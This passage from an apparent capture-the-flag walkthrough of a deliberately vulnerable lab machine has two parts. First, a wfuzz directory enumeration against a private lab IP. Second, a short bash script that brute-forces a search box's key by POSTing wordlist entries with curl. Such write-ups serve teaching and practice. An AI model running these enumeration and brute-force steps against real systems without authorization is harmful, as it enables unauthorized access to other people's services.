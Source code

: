 Then I run wfuzz to find files and directories hidden.

```console
root@kali:~$ wfuzz -c --hc 404 -u http://192.168.179.152/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...
000000164:   301        9 L      28 W       320 Ch      "uploads"         
000001073:   301        9 L      28 W       323 Ch      "javascript"     
000010825:   301        9 L      28 W       323 Ch      "phpmyadmin
```

With the directories found I couldn't do much so I decided use the exif comment and requested it as a web resource, this directed me to a search box.

![](/assets/images/nullbyte/screenshot-2.png)

![](/assets/images/nullbyte/screenshot-3.png)

This search box needs a key, as we can see in the source, the comment explains that the password isn't complex, so I developed a bash script to perform brute force on it.

```baash
#!/bin/bash

url="http://192.168.179.152/kzMb5nVYJw/index.php"

for x in $(cat wordlist.txt); do
   ans=$(curl -s -X POST $url --data "key=$x")
   if [[ ${#ans} -eq 243 ]]; then
       continue
   else
       echo "Found: $x"
       break
   fi
done
```
